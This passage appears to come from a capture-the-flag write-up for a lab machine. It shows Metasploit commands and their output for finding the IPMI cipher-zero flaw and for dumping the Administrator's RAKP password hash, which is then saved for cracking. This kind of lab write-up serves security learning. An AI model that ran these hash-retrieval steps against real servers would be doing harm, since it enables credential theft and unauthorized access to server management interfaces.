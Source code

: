 According to HackTricks, we can identify this issue with the `auxiliary/scanner/ipmi/ipmi_cipher_zero` metasploit module:

```
sudo msfconsole
use auxiliary/scanner/ipmi/ipmi_cipher_zero
set rhosts 10.10.11.124
run
```

The module returns the following:

```
[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So, it looks like this service is vulnerable to this exploit.

According to HackTricks, we can exploit this vulnerability using the `ipmitool` package, which will let us change a user's password if we know their username. However, this doesn't really help us so instead we will use the ["IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval"](https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) vulnerability discussed in the next section of the [HackTricks article](https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval).

According to HackTricks: "Basically, you can ask the server for the hashes MD5 and SHA1 of any username and if the username exists those hashes will be sent back. Yeah, as amazing as it sounds." This can be accomplished using the metasploit module `auxiliary/scanner/ipmi/ipmi_dumphashes`. Metasploit has a default list of usernames (the list has 7 items) to try so we will just use that.

```
sudo msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.10.11.124
set OUTPUT_HASHCAT_FILE ./ipmi_hashes
run
```

This produces the following output:

```
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:9dd85901820b0000ce727d83d50f92e88df0ad3096b98a82b7bc51c9a602c78a5be6ff28f2934aeda123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:4623493c7964ae8a927f8ede94f11c6deb21e6a6
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

In our `./ipmi_hashes` file we now have the following:

```
10.10.11.124 Administrator:9dd85901820b0000ce727d83d50f92e88df0ad3096b98a82b7bc51c9a602c78a5be6ff28f2934aeda123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:4623493c7964ae8a927f8ede94f11c6deb21e6a6
```
